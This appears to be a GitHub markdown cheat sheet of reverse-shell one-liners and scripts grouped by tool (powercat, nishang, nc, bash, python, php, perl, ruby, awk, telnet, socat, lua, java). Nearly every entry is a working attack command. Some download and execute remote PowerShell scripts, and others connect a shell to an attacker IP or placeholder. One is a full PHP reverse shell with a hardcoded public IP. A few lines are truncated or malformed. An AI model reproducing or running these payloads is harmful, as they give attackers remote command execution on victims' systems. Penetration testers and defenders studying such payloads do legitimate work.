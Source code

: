## powercat
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.1.4 -p 9999 -e cmd

TCP:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.203.140 -port 6666

UDP:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellUdp.ps1');Invoke-PowerShellUdp  -Reverse  -IPAddress  10.1.1.210 -port 1234

## nc
nc ip 8888 -e /bin/bash  
nc ip 8888 -e c:\windows\system32\cmd.exe

## bash
bash -i >& /dev/tcp/ip/port 0>&1
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzNy4xMzUvNzg5MCAwPiYx|{base64,-d}|{bash,-i}'

## python
```python
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```
## php
```php
php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```php
<?php   
error_reporting (E_ERROR);  
ignore_user_abort(true);  
ini_set('max_execution_time',0);  
$os = substr(PHP_OS,0,3);  
$ipaddr = '119.23.76.216';  
$port = '1230';  
$descriptorspec = array(0 => array("pipe","r"),1 => array("pipe","w"),2 => array("pipe","w"));  
$cwd = getcwd();  
$msg = php_uname()."\n------------Code by Spider-------------\n";  
if($os == 'WIN') {  
    $env = array('path' => 'c:\\windows\\system32');  
} else {  
    $env = array('path' => '/bin:/usr/bin:/usr/local/bin:/usr/local/sbin:/usr/sbin');  
}  
 
if(function_exists('fsockopen')) {  
    $sock = fsockopen($ipaddr,$port);  
    fwrite($sock,$msg);  
    while ($cmd = fread($sock,1024)) {  
        if (substr($cmd,0,3) == 'cd ') {  
            $cwd = trim(substr($cmd,3,-1));  
            chdir($cwd);  
            $cwd = getcwd();  
        }  
        if (trim(strtolower($cmd)) == 'exit') {  
            break;  
        } else {  
            $process = proc_open($cmd,$descriptorspec,$pipes,$cwd,$env);  
            if (is_resource($process)) {  
                fwrite($pipes[0],$cmd);  
                fclose($pipes[0]);  
                $msg = stream_get_contents($pipes[1]);  
                fwrite($sock,$msg);  
                fclose($pipes[1]);  
                $msg = stream_get_contents($pipes[2]);  
                fwrite($sock,$msg);  
                fclose($pipes[2]);  
                proc_close($process);  
            }  
        }  
    }  
    fclose($sock);  
} else {  
    $sock = socket_create(AF_INET,SOCK_STREAM,SOL_TCP);  
    socket_connect($sock,$ipaddr,$port);  
    socket_write($sock,$msg);  
    fwrite($sock,$msg);  
    while ($cmd = socket_read($sock,1024)) {  
        if (substr($cmd,0,3) == 'cd ') {  
            $cwd = trim(substr($cmd,3,-1));  
            chdir($cwd);  
            $cwd = getcwd();  
        }  
        if (trim(strtolower($cmd)) == 'exit') {  
            break;  
        } else {  
            $process = proc_open($cmd,$descriptorspec,$pipes,$cwd,$env);  
            if (is_resource($process)) {  
                fwrite($pipes[0],$cmd);  
                fclose($pipes[0]);  
                $msg = stream_get_contents($pipes[1]);  
                socket_write($sock,$msg,strlen($msg));  
                fclose($pipes[1]);  
                $msg = stream_get_contents($pipes[2]);  
                socket_write($sock,$msg,strlen($msg));  
                fclose($pipes[2]);  
                proc_close($process);  
            }  
        }  
    }  
    socket_close($sock);  
}  
?> 
```
## perl
Socket;$i="ip";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

## ruby
ruby -rsocket -e'f=TCPSocket.open("ip",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

## awk
`awk 'BEGIN{s="/inet/tcp/0/192.168.99.242/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'`


## telnet
`telnet 192.168.99.242 1234 | /bin/bash | telnet 192.168.99.242 4321`

## socat
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.99.242:1234`

## lua
`lua -e "require('socket');require('os');t=socket.tcp();t:connect('192.168.99.242','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"`

## java
```java
public class Revs {
    /**
    * @param args
    * @throws Exception
    */public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```
